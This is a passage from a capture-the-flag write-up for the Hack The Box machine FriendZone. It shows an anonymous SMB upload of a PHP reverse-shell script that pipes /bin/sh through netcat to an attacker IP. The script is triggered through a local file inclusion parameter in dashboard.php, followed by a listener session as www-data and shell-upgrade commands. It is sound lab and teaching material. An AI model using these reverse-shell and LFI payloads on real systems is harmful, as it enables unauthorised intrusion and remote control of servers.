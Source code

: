![[FriendZone-12.png]]

And we could access page `https://administrator1.friendzone.red/dashboard.php`

![[FriendZone-13.png]]

And we will note it could be a LFI function we could abused.

### Exploits

#### Local File Inclusion (LFI) attacks

We can upload files to the `smb` share `Development` and we also know the full path : `/etc/Development`, so if it’s really vulnerable to `LFI` we can get a reverse shell easily.

I wrote a small `php` script to get a reverse shell :

```php
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f');
?>
```

Then I uploaded it to `Development` :

```bash
smbclient //10.10.10.123/development -U ""
put shell.php
```

![[FriendZone-14.png]]

Noted `Files` location was `/etc/Files` , And then we try to use LFI to exploit the webshell by access this url

```
https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/shell
```

And we will get the web shell:

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/FriendZone]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.123] 59242
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
id$ 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

#### Upgrade the shell

```bash
# https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/
python3 -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 1234
reset
xterm-256color
stty rows 47 columns 176
```
